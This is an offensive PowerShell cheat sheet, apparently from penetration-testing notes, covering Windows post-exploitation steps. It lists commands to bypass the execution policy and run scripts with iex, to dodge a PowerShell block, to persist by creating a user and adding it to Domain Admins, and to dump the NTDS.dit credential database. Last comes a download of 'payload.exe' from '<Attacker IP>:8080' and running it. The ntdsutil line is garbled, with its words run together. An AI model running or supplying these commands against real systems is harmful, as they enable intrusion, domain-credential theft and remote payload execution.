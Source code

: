 # ☄️ Powershell Commands Cheat Sheet

**Execution Bypass**

* ```
  Set-ExecutionPolicy Unrestricted 
  ./file.ps1
  ```
* ```
  Import-Module script.psm1
  Invoke-FunctionThatIsIntheModule
  ```
* ```
  iex(new-object system.net.webclient).downloadstring(“file:///C:\examplefile.ps1”)
  ```

**Powershell.exe blocked**

* Use ‘not powershell’ [https://github.com/Ben0xA/nps](https://github.com/Ben0xA/nps)

Persistence

* ```
  net user username "password" /ADD
  ```
* ```
  net group "Domain Admins" %username% /DOMAIN /ADD
  ```

**Gather NTDS.dit file**

* `ntdsutilactivate instance ntdsifmcreate full C:\ntdsutilquitquit`&#x20;

#### Download Files in Victim Machine

```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://<Attacker IP>:8080/payload.exe','payload.exe')"

OR

powershell iwr -Uri http://<IP>:<Port> -OutFile shell.exe
```

```
# Executing the payload
Start-Process "payload.exe"

OR

.\shell.exe
```

